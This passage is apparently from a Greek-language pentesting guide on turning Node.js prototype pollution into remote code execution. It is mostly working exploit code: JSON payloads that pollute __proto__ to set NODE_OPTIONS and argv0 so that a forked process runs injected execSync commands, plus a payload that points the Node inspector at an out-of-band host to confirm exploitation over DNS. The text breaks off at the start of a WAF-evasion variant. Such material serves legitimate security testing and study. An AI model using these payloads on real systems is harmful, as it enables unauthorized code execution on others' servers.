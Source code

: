 ```javascript

// Abusing the vulnerable code
USERINPUT = JSON.parse('{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce2\\\").toString())//"}}}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec2
```
## PP2RCE μέσω μεταβλητών περιβάλλοντος + γραμμής εντολών

Προτάθηκε ένας παρόμοιος φορτίος με αλλαγές στο [**συγκεκριμένο άρθρο**](https://blog.sonarsource.com/blitzjs-prototype-pollution/)**.** Οι κύριες διαφορές είναι:

* Αντί να αποθηκεύει το φορτίο του nodejs μέσα στο αρχείο `/proc/self/environ`, το αποθηκεύει μέσα στο **argv0** του **`/proc/self/cmdline`**.
* Στη συνέχεια, αντί να απαιτεί το αρχείο `/proc/self/environ` μέσω της **`NODE_OPTIONS`**, απαιτεί το **`/proc/self/cmdline`**.

{% code overflow="wrap" %}
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//"
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"

// Trigger gadget
var proc = fork('./a_file.js');
// This should create the file /tmp/pp2rec2


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce2\\\").toString())//"}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec
```
{% endcode %}

## Αλληλεπίδραση με το DNS

Χρησιμοποιώντας τα παρακάτω φορτία, είναι δυνατόν να καταχραστούμε τη μεταβλητή περιβάλλοντος NODE\_OPTIONS που έχουμε συζητήσει προηγουμένως και να ελέγξουμε αν λειτούργησε με μια αλληλεπίδραση με το DNS:
```json
{
"__proto__": {
"argv0":"node",
"shell":"node",
"NODE_OPTIONS":"--inspect=id.oastify.com"
}
}
```
Ή, για να αποφευχθεί η αίτηση του WAF για τον τομέα:
```json
{
```